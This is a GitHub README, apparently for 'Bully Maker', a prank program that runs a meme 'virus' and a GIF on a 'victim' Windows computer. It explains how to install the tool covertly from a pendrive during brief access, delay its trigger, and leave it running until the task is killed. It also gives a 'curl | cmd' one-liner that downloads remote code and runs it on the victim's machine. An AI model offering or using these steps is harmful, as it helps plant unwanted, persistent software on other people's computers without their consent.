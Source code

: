 # Bully Maker

A program that bullies the victim computer with a meme albanian virus and a sussy hacker gif

Inspiration for albanian virus:
https://www.reddit.com/r/funny/comments/3l65rp/albanian_virus/

## Requirements
-Windows operating system
-Access to the victim computer for a few minutes

## Usage

-Copy the setup.bat and bully.gif to a pendrive
-Open the pendrive in the victim's computer and run the setup file
-Enter the time you want the program to wait, as you would wish the program to
run while the computer is being used. the default waiting time is 120 seconds
that is 2 minutes.
-After the setup is completed unplug the pendrive, and after the timeout is 
completed, the meme virus will detonate.

## FAQs
1) Is this harmful?
A) Not really

2) How to stop the program?
A) The program doesn't stop by itself, you will need open task manager and kill the vbs task.
If you cannot do that, the only option is to restart the computer.

3) How to uninstall the virus?
A) Go to the temp folder by typing `cd %tmp%` and delete the folder named
bully by running `rmdir /s bully`

## Miscellaneous
If you do not wish to use a pendrive and the victim computer has internet connection
you can also run the below command in cmd

`curl -s | cmd`
